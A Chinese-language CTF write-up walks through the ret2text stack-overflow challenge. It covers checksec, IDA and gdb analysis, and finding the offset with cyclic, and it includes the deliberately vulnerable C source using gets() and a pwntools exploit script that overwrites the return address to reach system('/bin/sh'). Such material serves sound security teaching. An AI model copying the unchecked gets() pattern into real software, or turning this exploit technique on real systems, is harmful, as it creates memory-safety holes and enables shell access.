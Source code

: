 ```yaml
---

layout:     post
title:      ret2text
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




本文讲解栈溢出中，最简单的利用

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida



[程序下载](https://maoshuu.oss-cn-beijing.aliyuncs.com/elf/ret2text)



第一步

利用pwntools的checksec查看elf文件的保护措施

```
#checksec ret2text

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```



第二步

利用file命令，查看文件信息

```
file ret2text

ret2text: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
```



第三步

ida分析程序，双击左边的main函数，然后按F5，出现伪C代码

![image-20180911153947593](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074400.jpg)



简单分析，能够发现第九行gets函数存在溢出，

![image-20180911154339254](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-074405.png)



buf的长度为0x64=100，如果gets函数接收到的数据长度大于100，肯定会覆盖buf外的数据

![image-20180911154833684](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-075031.png)



第四步

定位覆盖函数返回地址的位置

cyclic 200

![image-20180911160406996](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080411.png)



gdb -q ret2text，run命令运行程序，然后把cyclic生成的字符串输入

![image-20180911160327983](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-080333.png)

观察eip寄存器的值，变成了0x62616164，main函数返回地址被覆盖为0x62616164



cyclic -l 0x62616164

![image-20180911160531664](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081819.png)



第五步

确定函数的ret返回地址

![image-20180911160642678](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081739.png)



双击system函数

![image-20180911160718703](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081743.png)



选中system函数，按x快捷键

![image-20180911160739851](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081747.png)



进入程序调用system函数的代码区，我们发现程序直接执行了system('/bin/sh')

![image-20180911160820091](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081758.png)



我们让main函数的ret地址返回到这里执行system('/bin/sh')

按一下tab键

![image-20180911161021606](http://maoshuu.oss-cn-beijing.aliyuncs.com/blog/2018-09-11-081755.png)

确定system('/bin/sh')的汇编代码的地址为 0x0804863A，0x08048641是call system函数，但是调用函数之前需要传递参数，0x0804863A是传递参数的过程，两句汇编代码结合起来就是system('/bin/sh')这句c代码

```c
ret2text.c

#include <stdio.h>

#include <stdlib.h>

#include <time.h>


void secure(void)
{
    int secretcode, input;
    srand(time(NULL));

    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh");
}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf);
    printf("Maybe I will tell you next time !");

    return 0;
}
```





exp脚本：

```
#!/usr/bin/env python

from pwn import *

remote_is = 1

if remote_is:
	sh = remote('127.0.0.1', 4444)
else:
	sh = process('./ret2text')

system_addr = 0x804863A
sh.sendline('a'*112 + p32(system_addr))

sh.interactive()
```

